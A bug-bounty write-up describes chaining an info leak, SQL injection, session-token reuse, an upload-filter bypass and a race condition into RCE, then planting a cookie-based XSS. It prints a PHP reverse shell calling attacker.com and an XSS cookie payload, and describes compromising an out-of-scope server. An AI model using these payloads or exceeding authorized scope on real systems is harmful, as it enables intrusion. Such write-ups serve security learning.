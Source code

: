 ```yaml
---
layout: post
title: Exploiting Cookie Based XSS by Finding RCE
excerpt: "While doing Bug Bounty Hunting , I found a Cookie Based XSS Vulnerability on a website. Cookie Based XSS basically is a Self XSS. It will be very unfortunate if the findings were reported and only got Very Low Severity which for the severity there was no Bounty or Points given."
tags: [bug hunting, hacking, lfd, sql injection, rce, xss]
categories: [bug hunting]
comments: true
image:
  feature: df2e430d20474a0262177c6b7663106d-f.png
---
```


بسم الله الرحمن الرحيم


> When doing penetrating on this target, I collaborated with [YoKo Kho](https://medium.com/@YoKoKho?source=post_page-----9a4065368ba3----------------------) to get the highest privileges. In this paper you may find a little similarity with [his trick](https://medium.com/bugbountywriteup/race-condition-that-could-result-to-rce-a-story-with-an-app-that-temporary-stored-an-uploaded-9a4065368ba3). But in the real case, what we write is a different feature. If you have read his writing, this story is the prequel of it.


While doing Bug Bounty Hunting , I found a **Cookie Based XSS Vulnerability** on a website. Cookie Based XSS basically is a Self XSS. It will be very unfortunate if the findings were reported and only got Very Low Severity which for the severity there was no Bounty or Points given.

The scope of this program is very limited, but the target domain has lots of subdomains. The first thing that comes to mind is looking for XSS Vulnerabilities in target subdomains that are **out of scope** to trigger Cookie Based XSS in **in-scope** target domains, so by that severity will increase at least to High or Medium.

#### I. Information Disclosure

After hunting for some time, no subdomains that have XSS vulnerabilities were found either. Until when doing a _bruteforce_ directory on one of the subdomains, I found an interesting file.

```
https://redacted.com/redacted/redacted/_notes/dwsync.xml
```

The `dwsync.xml` file is a file generated by Dreamweaver. Where the file contains information related to what files are in the website directory.

![Figure 1 — dwsync.xml File](/assets/df2e430d20474a0262177c6b7663106d-1.png)


#### II. SQL Injection

By default, to access the website requires credentials, and we cannot create an account on the website. As explained above, through the `dwsync.xml` file, we can get information related to what files are on the target website. So I tried to access one of the files, for example I tried to access the `redacted.php` file.

![Figure 2 — redacted.php File](/assets/df2e430d20474a0262177c6b7663106d-2.png)

We can see an error message appears: `Undefined index: ver`, which means on that page there is a variable `ver` that has not been defined. For that, I also changed the URL to something like this:

```
https://redacted.com/dir/redacted.php?ver=1
```

And the page display changes, but only displays the number `1`.

![Figure 3 — redacted.php with ver variable](/assets/df2e430d20474a0262177c6b7663106d-3.png)

Don’t know what the meaning of number 1 is, that number is also not a reflection of the value I entered in the `ver` parameter above. But seeing the parameter in the URL, my hand felt _itchy_ to add the symbol `‘` to that parameter. And the result …

![Figure 4 — SQL Error Message](/assets/df2e430d20474a0262177c6b7663106d-4.png)

It looks like the error message looks very familiar. Without waiting long, I immediately tried to do `SQL Injection` with `SQLmap`. And here is the list of databases obtained:

```
available databases [5]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] redacted_db
[*] tmp
```

#### III. Authentication Bypass

From the `SQL Injection` vulnerability, I tried to upload shell to the target server, but it’s failed. So I must be able to login to the website using the data in the database.

After trying to extract the `redacted_db` database, a table named `user_tbl` was found. In the table there is information related to the user on the target website. But unfortunately, the user’s password is hashed using `md5` and when trying to crack, nothing works.

Not giving up until then, I went back to look for tables that might be used. So I arrived at a table called `session_tbl`. In the table, there are only 3 columns, `session_id`, `user_id`, and `session`.

From there I realized that the table contained active sessions from the website user. So I searched for the user with the highest role level in the `user_tbl` table, and searched for the session in the session table. Then I tried to enter the session value obtained from the database into the `Cookie` website with the session name. And finally I successfully login to the website.


#### IV. Unrestricted File Upload

Long story short, after being able to log into the target website, then I look for other vulnerabilities that can be exploited. On the website there is a feature for uploading files. Of course this is a feature that we must test.

![Figure 5 — File Upload Form](/assets/df2e430d20474a0262177c6b7663106d-5.png)

I also tried to upload a file with the `.phtml` extension, but the file was rejected and could not be uploaded.

![Figure 6 — File Rejected](/assets/df2e430d20474a0262177c6b7663106d-6.png)

But I suspect, the filter only runs on the client side. This means that there is potential for bypasses with the help of tools such as Burpsuite. So I tried uploading the file again, this time with the .jpg extension then in Burpsuite Intercept, I change the extension to `.phtml`.

Here’s the screenshot when I re-upload the file using Repeater.

![Figure 7 — File Uploaded](/assets/df2e430d20474a0262177c6b7663106d-7.png)

After using the method above, the file was successfully uploaded. Seeing the response that appears, the file is stored in `AWS`, not on the target website

```
https://storage-redacted.s3-ap-southeast-1.amazonaws.com/redacted_dir/redacted_file.phtml
```

#### V. Remote Code Execution

Seeing the uploaded file stored in `AWS`, not much can be done on that file, because our target is the web server not the `AWS` server. So I also tried to understand the response displayed by the target server.

```
/var/www/html/redacted/../redacted****/var/www/html/redacted/../redacted/info.phtml<br>Uploading part 2 of /var/www/html/redacted/../redacted/info.phtml.
Uploaded /var/www/html/redacted/../redacted/info.phtml to https://storage-redacted.s3-ap-southeast-1.amazonaws.com/redacted_dir/redacted_file.phtml.
SUCCESS 52673, 98235
```

From the response above, I assume that besides being stored on AWS, there is a possibility that uploaded files will be stored on the target website in the **redacted** directory. So I also tried to visit the following URL:

```
https://redacted.com/redacted/redacted/info.phtml
```

And the file was not found.

![Figure 8 — File Not Found](/assets/df2e430d20474a0262177c6b7663106d-8.png)

But I still assume, it isn’t make sense if the response displays a **redacted** directory if it has nothing to do with the file that we uploaded. What if what happens is, the file that we upload is temporarily stored in the **redacted** directory, then after some time it is thrown into `AWS` as a storage place.

If my assumption is correct, then our file will be on the server for a second before uploading to `AWS`. And we must catch the file before sending it to `AWS` server.

To test it, I use _Burpsuite Intruder_ and try to do a `GET` Request continuously to the URL file in the **redacted** directory.

![Figure 9 — File Found](/assets/df2e430d20474a0262177c6b7663106d-9.png)

And sure enough, for some time the file was on the target server _(HTTP Code 200)_, and not long after that file disappeared _(HTTP Code 404)_ indicating the file has been moved to `AWS`.

So by doing the same thing, we can upload _PHP Reverse Shell_ to get the shell from the target website.

```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/attacker.com/1337 0>&1'");
```

![Figure 10 — Pwned](/assets/df2e430d20474a0262177c6b7663106d-10.png)

And finally I also got access to the target server.


#### VI. The XSS

Back to first of story, after getting shell access, I placed an `HTML` file containing javascript to trigger `XSS` on websites that were in the bounty scope.

With HTML code like the this:

```html
<script>document.cookie = "evil=%3Cimg%20src%3Dx%20onerror%3Dalert%281%29%3E@;path=/;domain=.redacted.com;";</script>
```

We can create a cookie named **evil** on the `redacted.com` domain with the value containing the XSS Payload `<img src=x onerror=alert(1)>`. So when you access the in-scope bounty domain, the cookie will be loaded and XSS will be triggered.

![Figure 11 — Pwned](/assets/df2e430d20474a0262177c6b7663106d-11.gif)

Getting full server access on an **out of scope** website to trigger XSS on an **in-scope** website is rather ironic indeed. But that’s Bug Hunting, as much as possible we must be able to convince the Program Owner that the vulnerability we find can be exploited and have a significant impact.

On that website I found a several Cookie Based XSS worth $5000.

#### VII. Conclusion

Here’s some noob tips that you can do when doing Bug Hunting:

- When finding vulnerability with a low severity, don’t report it immediately. Look for possibilities that can be used to increase the severity.
- If you find a website with a login page without a registration feature, try to **bruteforce** it using _dirsearch_, _dirbuster_, etc. Websites that only display a login page and no registration feature indicate that the website can only be accessed by an internal team, and usually such websites have lots of bugs.
- If you find **SQL Injection** and a password is hashed on the database, try to visit another table, there might be something juicy there.
- If you find the upload form and you cannot upload the shell. Try to bypass it by trying to upload via Burpsuite Repeater, changing extensions, mime type, etc. After the file has been uploaded successfully, learn the flow how they save the file.